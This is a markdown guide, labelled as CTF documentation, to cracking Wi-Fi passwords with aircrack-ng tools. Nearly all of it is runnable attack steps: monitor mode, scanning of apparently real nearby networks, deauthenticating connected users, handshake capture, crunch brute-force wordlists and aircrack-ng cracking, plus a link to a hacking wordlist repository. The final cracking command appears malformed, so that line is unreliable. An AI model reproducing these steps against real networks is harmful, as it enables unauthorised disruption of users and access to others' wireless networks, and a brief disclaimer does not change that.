 # CTF: WIFI Password Cracker Documentation

## Overview

This document provides a step-by-step guide to crack a WIFI password using various tools. This is intended for educational purposes and should only be used on networks you have permission to test.

## Tools Required

-`iwconfig`: To check network interfaces.

-`airmon-ng`: To enable monitor mode.

-`airodump-ng`: To capture network traffic.

-`aireplay-ng`: To deauthenticate users.

-`aircrack-ng`: To crack the WIFI password.

-`crunch`: To create a wordlist (optional).

## Steps

### 1. Check Network Interface

First, identify the network interfaces available on your system.

```sh

iwconfig

```

### 2. Switch to Monitor Mode

Enable monitor mode on the desired network interface.

```sh

airmon-ng start wlan0

iwconfig

```

**Example Output:**

```

lo        no wireless extensions.


br-d212c57f6d84  no wireless extensions.


br-314938f5e24  no wireless extensions.


docker0   no wireless extensions.


wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.427 GHz  

          Retry short limit:7   RTS thr:off   Fragment thr:off

          Power Management:on

```

### 3. Check for Open Network Connections

Scan for available networks.

```sh

airodump-ng wlan0mon

```

**Example Output:**

```text

[CH  3 ][ Elapsed: 1 min ][ 2024-11-07 23:29] 


 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER 


 AUTH


 ESSID


 B0:BE


:


76:EB:BE:E4   -1        0        0    0   1   -1                    <length:  0>                            

 E6:63:DA:6E:9D:05  -16        0        0    0  11  130   OPN              XXX_Student_WiFi                        

 48:E6:63:A3:03:C5  -25        1        0    0   5  720   WPA3 CCMP   SAE  low_2.4G.the101_UMJK                    

 E6:63:DA:6E:9C:D2  -86        1        6    1  11  130   OPN              XXX_Student_WiFi                                                   

...


 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes


 E6:63:DA:6E:9F:80  F6:A0:6D:74:FF:9C  -71    6e- 1e     0      275                                                 

 E6:63:DA:6E:9F:80  7A:2E:14:F4:C1:4D  -29    0 - 1      0        7         XXX_Student_WiFi     

...

```

### 4. Monitor Traffic to a Specific Network Channel

Capture traffic on a specific channel and BSSID.

```sh

airodump-ng -c CHANNEL_ID --bssid CHANNEL_BSSID -w /root wlan0mon

```

### 5. Deauthenticate a User from the Network Channel

Send deauthentication packets to a user on the network.

```sh

aireplay-ng --deauth DEAUTH_COUNT -a CHANNEL_BSSID wlan0mon

```

### 6. Capture the Handshake

The handshake is captured during the monitoring process. Ensure you have captured the handshake before proceeding to crack the password. The handshake file is typically saved with a `.cap` extension.

**Example Output:**

![HandShake](handshake.png)

### 7. Create a Wordlist

If you do not have a wordlist, you can create one using tools like `crunch`.

```sh

crunch 8 8 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -o wordlist.txt

```

This command generates a wordlist with all possible combinations of 8 characters using the specified character set. You can also get some good wordlists to extend to from this [link](https://github.com/TebogoYungMercykay/Thousands_Of_Resources_Related_To_H4cking/tree/master/cracking_passwords/more_wordlists).

### 8. Crack the WIFI Password with Your Wordlist

After capturing the handshake, use a wordlist to crack the password.

```sh

sudo aircrack-ng -a 272:9A:0C:44:4A:82 -w wordlist.txt handshake.cap

```

## Notes

- Ensure you have the necessary permissions to perform these actions on the network.
- This guide is for educational purposes only.

---
---
